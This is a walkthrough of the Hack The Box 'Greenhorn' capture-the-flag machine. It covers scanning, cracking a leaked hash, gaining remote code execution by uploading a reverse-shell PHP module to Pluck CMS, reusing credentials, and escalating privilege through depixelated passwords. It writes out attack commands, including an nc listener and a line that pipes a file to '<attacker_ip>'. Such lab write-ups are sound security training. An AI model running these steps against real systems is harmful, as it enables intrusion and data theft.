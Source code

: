 🧠 HTB — Greenhorn | Walkthrough & Exploitation Summary

⚔️ Intro

This is my full walkthrough of the Greenhorn CTF challenge on Hack The Box. Rather than giving you a flag-farming script, I’m walking through every step — including rabbit holes, failed attempts, and pivots — because in real-world pentests (and solid CTF runs), methodology > shortcuts.

⚠️ Some parts are intentionally redacted to avoid easy copy-paste flag grabbing. If you’re here just for points, you’re missing the point.

    “Every mistake teaches. Every dead-end maps the path.”

🧭 Phase 1 — Recon & Enumeration

We start with the classic:

nmap -sV -p- -T4 greenhorn.htb

Service versioning reveals a web server, ports 3000, 9999, and a basic admin panel. I added the target IP to /etc/hosts for easier access.

The initial web interface showed a Pluck CMS version — vulnerable according to a quick Google search and ExploitDB lookup.

Found this gem:

    Pluck CMS <= 4.7.18 - Authenticated RCE (CVE-XXXX-YYYY)

Tried launching the exploit, but it required authentication. Time to hunt for creds.
🧩 Phase 2 — Exploring Unusual Ports

Navigating to :3000, we land on what looks like an exposed code repo. Jackpot. After digging into the files, I found a file called pass.php exposing what looks like a SHA-512 password hash.

Saved it locally:

echo "d5443a...790163" > hash.txt
hashcat -m 1700 hash.txt /usr/share/wordlists/rockyou.txt

Boom. Cracked.
🔓 Phase 3 — Exploitation & Shell Access

Used the creds to log into the admin portal. From earlier research, the Pluck version supported module installation, which we could abuse for RCE.

Created a reverse shell PHP payload:

cp reverse.php shell.php
zip shell.zip shell.php

Uploaded via /admin.php?action=installmodule. Setup listener:

nc -lvnp 4444

Shell popped. Initial foothold achieved under www-data.
🔁 Phase 4 — Lateral Movement

Flag access denied — not enough permissions. Inspected /home and found two users: junior and senior.

Tried reused creds from earlier. Access to junior: granted. User flag: captured.
📁 Phase 5 — File Discovery & PrivEsc

Found a PDF file: Using OpenVAS.pdf. Transferred it over:

cat 'Using OpenVAS.pdf' | nc <attacker_ip> 7777

PDF had a pixelated password screenshot. Used depix:

python3 depix.py -p blurred_pass.png -s depix/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o solved.png

Depixelation success. The password unlocked sudo access.

sudo /usr/sbin/openvas

ROOT access obtained. Final flag captured.
🧠 Management Summary

This box was a classic example of weak security practices leading to full compromise:

    ✅ Exposed source code via misconfigured port (:3000)

    ❌ Hardcoded credentials

    ❌ Outdated & vulnerable CMS (Pluck)

    ❌ Password reuse across accounts

    ❌ Storing passwords in pixelated images (weak obfuscation)

By chaining these weaknesses, we moved from unauthenticated recon → web shell → lateral movement → privilege escalation → root.
✅ Final Thoughts

Greenhorn is a great reminder: security is holistic. It’s not just about patching software — it’s about thinking adversarially and minimizing exposure at every layer.
